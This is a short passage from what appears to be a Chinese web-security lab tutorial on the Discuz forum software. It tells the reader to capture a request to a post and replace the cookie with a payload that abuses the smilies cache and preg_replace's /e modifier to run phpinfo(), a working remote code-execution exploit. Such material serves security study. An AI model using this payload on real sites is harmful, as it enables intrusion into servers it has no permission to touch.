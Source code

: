 [![](assets/1704850598-252c284565d65001f6cde6763e0e885e.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/YYPBihROEbcafiVd.png)  
安装好后随便访问个帖子，并抓包。  
把cookie进行替换

```plain
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
```

[![](assets/1704850598-48905d6f1bec7e89f2e5752e465b25f6.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/HnxCrDDAvqc8YwM6.png)
